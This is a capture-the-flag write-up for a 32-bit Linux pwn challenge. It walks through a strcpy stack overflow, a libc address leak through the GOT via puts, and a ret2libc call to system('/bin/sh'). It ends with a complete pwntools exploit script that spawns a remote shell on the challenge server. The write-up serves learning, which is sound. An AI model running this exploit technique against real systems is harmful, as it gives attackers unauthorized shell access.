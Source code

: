 # OldSchool-NewAge

- **Category :** pwn
- **Points :** 75
- **Challenge Description :**
```
It all started with a leak bang
```

## Writeup

We are being provided with a tar file containing two files, an executable and a libc. Let's first run file on them :

```
$ file vuln4 libc.so.6
vuln4:     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
libc.so.6: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked
```

We can start to guess that this challenge will have to do with leaking stuff from libc (thanks to the presence of the library and the hint in the challenge description).
Let's first take a look at the main function of the program with r2 :
```
   sym.main ();
│           ; var int local_3ah @ ebp-0x3a
│           ; var int local_4h @ ebp-0x4
│           ; var int local_4h_2 @ esp+0x4
│           0x080484ea      8d4c2404       lea ecx, esp + 4            ; 4
│           0x080484ee      83e4f0         and esp, 0xfffffff0
│           0x080484f1      ff71fc         push dword [ecx - 4]
│           0x080484f4      55             push ebp
│           0x080484f5      89e5           mov ebp, esp
│           0x080484f7      51             push ecx
│           0x080484f8      83ec44         sub esp, 0x44               ; 'D'
│           0x080484fb      83ec0c         sub esp, 0xc
│           0x080484fe      6800860408     push str.This_time_it_is_randomized... ; 0x8048600 ; "This time it is randomized..."
│           0x08048503      e898feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048508      83c410         add esp, 0x10
│           0x0804850b      83ec0c         sub esp, 0xc
│           0x0804850e      681e860408     push str.You_should_find_puts_yourself ; 0x804861e ; "You should find puts yourself"
│           0x08048513      e888feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048518      83c410         add esp, 0x10
│           0x0804851b      a1a4980408     mov eax, dword [obj.stdout] ; [0x80498a4:4]=0
│           0x08048520      83ec0c         sub esp, 0xc
│           0x08048523      50             push eax
│           0x08048524      e847feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x08048529      83c410         add esp, 0x10
│           0x0804852c      a1a0980408     mov eax, dword [obj.stdin]  ; [0x80498a0:4]=0
│           0x08048531      83ec04         sub esp, 4
│           0x08048534      50             push eax
│           0x08048535      68c8000000     push 0xc8                   ; 200
│           0x0804853a      8d45c6         lea eax, ebp - 0x3a
│           0x0804853d      50             push eax
│           0x0804853e      e83dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08048543      83c410         add esp, 0x10
│           0x08048546      83ec0c         sub esp, 0xc
│           0x08048549      8d45c6         lea eax, ebp - 0x3a
│           0x0804854c      50             push eax
│           0x0804854d      e879ffffff     call sym.copy_it
│           0x08048552      83c410         add esp, 0x10
│           0x08048555      83ec0c         sub esp, 0xc
│           0x08048558      683c860408     push str.done               ; 0x804863c ; "done!"
│           0x0804855d      e83efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048562      83c410         add esp, 0x10
│           0x08048565      b800000000     mov eax, 0
│           0x0804856a      8b4dfc         mov ecx, dword [local_4h]
│           0x0804856d      c9             leave
│           0x0804856e      8d61fc         lea esp, ecx - 4
└           0x08048571      c3             ret
```

So we have a fgets reading 0xc8 characters into a stack allocated buffer, and this buffer is then copied with the copy_it function to another buffer in memory. Let's take a look at copy_it.

```
│   sym.copy_it ();
│           ; var int local_12h @ ebp-0x12
│              ; CALL XREF from 0x0804854d (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           mov ebp, esp
│           0x080484ce      83ec18         sub esp, 0x18
│           0x080484d1      83ec08         sub esp, 8
│           0x080484d4      ff7508         push dword [ebp + 8]
│           0x080484d7      8d45ee         lea eax, ebp - 0x12
│           0x080484da      50             push eax
│           0x080484db      e8b0feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484e0      83c410         add esp, 0x10
│           0x080484e3      b800000000     mov eax, 0
│           0x080484e8      c9             leave
└           0x080484e9      c3             ret
```

The copy function uses strcpy, which means that it doesn't take into account the string length during the copy, and since we are calling it with pointers to stack allocated buffers things will get nasty.
If we try to input a large number of chars we get a segfault, and eip control, so we need to build a strategy to exploit this.

What we know:
- The binary has ASLR enabled
- The binary has the NX bit enabled
- The call convention has the arguments on the stack
- We only have a few libc functions available to us (fflush, fgets, strcpy, puts).

## Strategy
Since the arguments are on the stack, we can build our own fake stack frames to call functions. If we take a look at our functions we can see that we have puts, which can allow us to read arbitrary memory locations. And this is where the leaking part of this challenge is, we can leak libc function addresses by reading from the GOT with puts, and build on that. We can outline the following strategy :

- Call puts(address of fgets) and leak fgets address
- Compute libc base address (fgets leak - fgets in libc)
- Compute system address
- Compute "/bin/sh" address in libc
- Return to _start
- Call system("/bin/sh")
- ???
- Profit!

Note : Returning to _start allowed us to reset our stack to a sane state, and also allowed us to be able to exploit the program again without actually crashing it (and re-randomizing the addresses again)

We can then just navigate to the ctfuser home directory and cat the flag !
```
$ cat /home/ctfuser/flag
SharifCTF{7af9dab81dff481772609b97492d6899}
```

## Exploit script

```python
from pwn import *

overflow_offset = 22

puts_bin_addr = 0x80483a0
fgets_got = 0x804986c

main_addr = 0x80484ea
_start_addr = 0x80483d0

fgets_libc_addr = 0x0005e150 # 0x00065c50 locally
bin_sh_libc_addr = 0x0015ba0b # 0x0017882a locally
system_libc_addr = 0x0003ada0 # 0x0003c7d0 locally

# Goal : Leak puts addr and call system
# step 1 : Leak fgets
# - Build a false stack frame
# - Call puts with delta GOT offset as argument
# - Read addr and compute delta

p = remote("ctf.sharif.edu",4801)
p.recv(4096)

stage1 = "A"*overflow_offset
stage1 += p32(puts_bin_addr)
stage1 += p32(_start_addr) # return address
stage1 += p32(fgets_got)

log.info("Leaking fgets got ...")
p.sendline(stage1)

leak = p.recv(4096)

fgets_got_entry = u32(leak[0:4])

log.info("fgets got address : {}".format(hex(fgets_got_entry)))

libc_base_addr = fgets_got_entry - fgets_libc_addr

bin_sh_addr = libc_base_addr + bin_sh_libc_addr
system_addr = libc_base_addr + system_libc_addr

log.info("libc base addr is : {}".format(hex(libc_base_addr)))
log.info("/bin/sh string addr is : {}".format(hex(bin_sh_addr)))
log.info("system addr is : {}".format(hex(system_addr)))


# step 2 : exploit
# - Call main again
# - Call system("/bin/sh")
# - Profit !

log.info("Getting remote shell ...")
stage2 = "A"*overflow_offset
stage2 += p32(system_addr)
stage2 += p32(_start_addr)
stage2 += p32(bin_sh_addr)

p.sendline(stage2)

# Remote shell
p.interactive()
```

